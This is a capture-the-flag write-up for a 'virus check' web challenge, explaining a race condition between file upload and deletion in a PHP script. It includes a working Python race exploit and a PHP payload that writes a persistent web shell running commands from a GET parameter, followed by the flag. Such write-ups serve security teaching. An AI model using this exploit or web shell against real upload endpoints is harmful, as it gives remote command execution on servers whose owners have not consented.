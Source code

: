# Web (200 Points) 71-solves

## Challenge Description
Have a suspicious file? Check it for viruses here.
author: rugo|RedRocket

Race condition to RCE
## Challenge Files

This challenge was similar to CSCG 2022 file upload, whereby a race condition is exploited.

```
<?php

if (isset($_FILES["file"])) {
    $size = $_FILES["file"]['size'];

    if ($size > 3000) {
        echo "For such large files, buy premium";
    } else {
        $target_dir = "uploads/";
        $target_file = $target_dir . $_FILES["file"]["name"];

        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);

        function hasVirus($file_path) {
            # Check for Virus
            $argument = escapeshellarg($file_path);
            exec("clamscan $argument", $output, $retval);

            if ($retval != 0) {
                return true;
            }
            return false;
        }

        if (hasVirus($target_file)) {
            echo "The file contains a virus!";
        } else {
            echo "The file is safe to use!";
        }

        unlink($target_file);
    }

}

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
}
?>
We can upload files to the application for it to inspect the file contents and check for viruses, and then it delets the file from the server.

```

## Solution
The application stores the file to the server first by
```
move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
```

,then only calls hasVirus() function and deletes it subsequently by 
```
unlink($target_file);
```
Therefore, we have a race condition where we can try to request the file before it is deleted from the server.

exploit.py
```
import threading
import requests


url = "http://viruscheckor.rumble.host/index.php"
file_location = "http://viruscheckor.rumble.host/uploads/virus.php"

def access_file():
    while(True):
        r = requests.get(file_location)
        if (r.ok and "Not Found" not in r.text):
                print(f'Success: {r.text}')
                return
        
def race(ses):
    t = threading.Thread(target=access_file)
    t.start()
    while(t.is_alive()):
        with open ('./virus.php','rb') as file:
            r = ses.post(url,files={"file":file})
        t.join()
        
if (__name__ == "__main__"):
    ses = requests.Session()
    race(ses)
```

virus.php
```
<?php
$data = "<?php system (\$_GET['cmd']);?>";
file_put_contents("race_exploit.php",$data);
?>
```

Here I write a file called "race_exploit.php" as a simple web shell to execute commands

Going to the uploads directory /uploads/race_exploit.php presents us with the webshell

![images](../images/id.png)

The steps are:
1. Upload php file to write persistent webshell to server
2. Race the server and include the file before it is deleted
3. Go to uploads directory and access web shell to execute commands

## Flag
Flag is located in /var/www/html/flag.php

```
CSR{MIGHTSTILLBEMALLICIOUS}
```

